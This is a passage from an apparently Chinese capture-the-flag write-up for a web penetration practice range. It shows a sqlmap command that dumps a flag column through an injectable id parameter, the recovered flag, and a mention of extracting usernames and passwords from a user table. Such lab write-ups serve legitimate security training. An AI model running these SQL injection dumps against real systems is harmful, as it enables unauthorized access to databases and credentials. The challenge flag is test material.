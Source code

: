 构造

> sqlmap -u url//api/removeBlog.php?id=3 -D ctfer -T flag -C flag --dump

获取字段**flag**中的内容，得到

![web2-flag](assets\web2-flag.png)

flag：

> flag2{83fc5b4e-d70a-be97-0ec2-6cdde9eb1b30}

### web综合渗透靶场flag3

通过sqlmap在ctfer下的user表中获取到username和password

![web-user-tab](assets\web-user-tab.png)

![web-user-item](assets\web-user-item.png)
